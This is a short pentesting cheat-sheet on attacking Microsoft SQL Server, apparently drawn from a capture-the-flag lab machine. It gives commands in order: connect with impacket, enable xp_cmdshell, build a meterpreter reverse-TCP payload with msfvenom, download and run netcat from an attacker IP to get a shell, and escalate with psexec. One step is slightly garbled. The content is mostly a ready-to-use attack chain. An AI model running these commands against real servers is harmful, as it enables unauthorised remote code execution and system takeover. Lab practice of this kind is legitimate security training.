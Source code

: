 # Pentesting MsSql

## ms-sql-s port 1433

* Use `impacket mssqlclient.py` to connect

```
python mssqlclient.py ARCHETYPE/sql_svc@10.129.62.77 -windows-auth
```

* https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
* Check what is the role we have in the server

```
SELECT is_srvrolemember('sysadmin');
```

* If the output is 1 , it translates to True .
* Check to see if `xp_cmdshell` is enabled

```
SQL> EXEC xp_cmdshell 'net user';
```

* Set up the command execution through the `xp_cmdshell`:

```
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell
```

* First as it’s disabled by default:

```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

* Now we are able to execute system commands:

```
xp_cmdshell "whoami"
```

* Better Command Execution

```
xp_cmdshell "powershell -c pwd"
```

* Get a shell on target with `nc` or `msfvenom`

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.154 LPORT=80 -f exe -o shell.exe
python3 -m http.server
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.9/nc64.exe -outfile nc64.exe; ./nc64.exe"
```

* Find the admin password from the shell

```
python /usr/local/bin/psexec.py administrator@10.129.62.77
```
